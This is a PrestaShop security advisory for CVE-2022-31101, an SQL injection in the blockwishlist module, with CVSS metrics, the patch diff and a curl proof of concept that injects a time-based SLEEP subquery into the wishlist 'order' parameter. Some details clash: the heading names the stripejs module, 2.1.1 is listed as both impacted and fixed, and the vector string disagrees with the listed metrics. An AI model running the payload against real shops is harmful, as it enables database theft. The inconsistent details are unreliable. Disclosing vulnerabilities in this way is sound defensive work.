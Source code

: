 ```yaml
---
layout: post
title: "[CVE-2022-31101] Invalid order neutralization in an SQL query in PrestaShop blockwishlist module"
categories: modules
author:
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,blockwishlist"
---
```


# Improper neutralization of an SQL parameter in PrestaShop stripejs module

**blockwishlist** is a prestashop extension which adds a block containing the customer's wishlists. In affected versions an authenticated customer can perform SQL injection. This issue is fixed in version 2.1.1. Users are advised to upgrade. There are no known workarounds for this issue. 

## Summary

* **CVE ID**: [CVE-2022-31101](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-31101)
* **Published at**: 2022-06-24
* **Advisory source**: PrestaShop
* **Vendor**: PrestaShop
* **Product**: blockwishlist
* **Impacted release**: >=2.0.0, 2.1.1
* **Product author**: NTS
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: high (8.1)

## Description

An authenticated customer can perform SQL injection.


## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: low
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: none

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L

## Possible malicious usage

Technical and personal data leaks
Obtain admin access
Remove all data of the linked PrestaShop

## Proof of concept

Based on this [POC](https://packetstormsecurity.com/files/168003/Prestashop-Blockwishlist-2.1.0-SQL-Injection.html)

```bash
curl -v 'http://website.com/module/blockwishlist/view?id_wishlist=1&order=product.name%2C%20%28select%20case%20when%20%28id_customer%3D1%29%20then%20%28SELECT%20SLEEP%287%29%29%20else%201%20end%20from%20ps_customer%20where%20id_customer%3D1%29%3B%20--.asc'
```


## Patch of release 2.1.0 to 2.1.1

Issue is fixed in 2.1.1 in this [patch](https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084)

```diff
--- a/src/Search/WishListProductSearchProvider.php
+++ b/src/Search/WishListProductSearchProvider.php
@@ -35,6 +35,7 @@ use PrestaShop\PrestaShop\Core\Product\Search\SortOrderFactory;
 use Product;
 use Shop;
 use Symfony\Component\Translation\TranslatorInterface;
+use Validate;
 use WishList;
 
 /**
@@ -167,7 +168,10 @@ class WishListProductSearchProvider implements ProductSearchProviderInterface
 
         if ('products' === $type) {
             $sortOrder = $query->getSortOrder()->toLegacyOrderBy(true);
-            $querySearch->orderBy($sortOrder . ' ' . $query->getSortOrder()->toLegacyOrderWay());
+            $sortWay = $query->getSortOrder()->toLegacyOrderWay();
+            if (Validate::isOrderBy($sortOrder) && Validate::isOrderWay($sortWay)) {
+                $querySearch->orderBy($sortOrder . ' ' . $sortWay);
+            }
             $querySearch->limit((int) $query->getResultsPerPage(), ((int) $query->getPage() - 1) * (int) $query->getResultsPerPage());
             $products = $this->db->executeS($querySearch);
```


## Other recommandations

It’s recommended to upgrade to the lastest version of the module **blockwishlist** up to 2.1.1.

Please note, blockwishlist is often forked to be custumized.

## Links

* [PrestaShop product repository](https://github.com/PrestaShop/blockwishlist/security/advisories/GHSA-2jx3-5j9v-prpp)
* [POC](http://packetstormsecurity.com/files/168003/Prestashop-Blockwishlist-2.1.0-SQL-Injection.html)
* [Patch](https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084)

